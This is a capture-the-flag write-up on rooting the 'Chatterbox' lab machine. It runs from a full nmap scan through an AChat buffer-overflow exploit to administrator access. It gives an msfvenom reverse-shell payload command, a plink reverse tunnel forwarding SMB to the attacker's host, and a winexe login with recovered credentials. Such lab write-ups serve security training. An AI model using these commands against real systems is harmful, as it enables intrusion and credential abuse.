


Chatterbox
In this post I will be showing you how to root Chatterbox, as always I will try to not spoonfeed as much as I can. Enjoy.
I ran an nmap scan against the box but no ports came back, so I decided to a full port scan by adding the -p- flag my nmap command, this revealed 2 ports which were related to AChat.

I did a quick searchsploit search against "AChat" and decided to use this python script: https://www.exploit-db.com/exploits/36025
I used the following command to generate my payload and replaced it in the python script
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=listeningip LPORT=listeningport -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Then I used metasploit's exploit/multi/handler module to listen for the shell, do not forget to set the payload to windows/shell_reverse_tcp (I forgot doing this and it took me 30 minutes to figure it out)
After I got the shell I ran really quick netstat -ano because I was not convinced AChat was the only service running on the machine.
To my surprise, there was indeed 445 open which was basically SMB.
SMB could help us only: - If we got credentials - In case of Administrator creds, we could possible get a shell - Anonymous login is enabled
So before port forwarding 445, I decided to do more enumeration.
I went to the good old hacktricks' checklist which I recommend you check out.
After few minutes, I got my first credentials within registry, more info here: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#inside-the-registry
I downloaded plink (MAKE SURE TO DOWNLOAD THE 32 BIT VERSION) from here.
After downloading it I used python3 to make a http server where I will download plink from.
$ cd ~/Downloads
$ python3 -m http.server # You might need to run this as root or specific another port that doesn't need special privs to bind to, by default it uses 8000
On my box I also started ssh using systemctl
$ sudo systemctl enable ssh
Then using plink on the box I ran the following:
.\plink.exe -l d4rckh -pw 123123 -R 445:127.0.0.1:445 10.10.XX.XX
(NOTE: Change the username, IP and password so they match with your box)
From there I ran winexe:
winexe -U Administrator%Welcome1! //127.0.0.1 “cmd.exe”
